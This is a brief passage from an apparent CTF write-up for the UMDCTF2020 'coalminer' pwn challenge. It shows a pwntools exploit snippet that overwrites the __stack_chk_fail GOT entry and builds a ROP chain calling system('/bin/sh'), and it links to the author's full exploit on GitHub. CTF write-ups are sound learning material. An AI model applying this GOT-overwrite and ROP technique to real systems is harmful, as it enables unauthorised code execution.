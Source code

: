 > I can't figure out the version of libc in remote so failed to attack.

#### rop2

```python
sla('> ','add')
sla('Enter a name: \n','TaQini__'+p64(elf. got['__stack_chk_fail']))
ropchain = p64(ret) + p64(prdi) + p64(binsh) + p64(system) + p64(0x400770)
sla('Enter a description: \n',p64(p4r)+ropchain)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/UMDCTF2020/pwn/coalminer) 

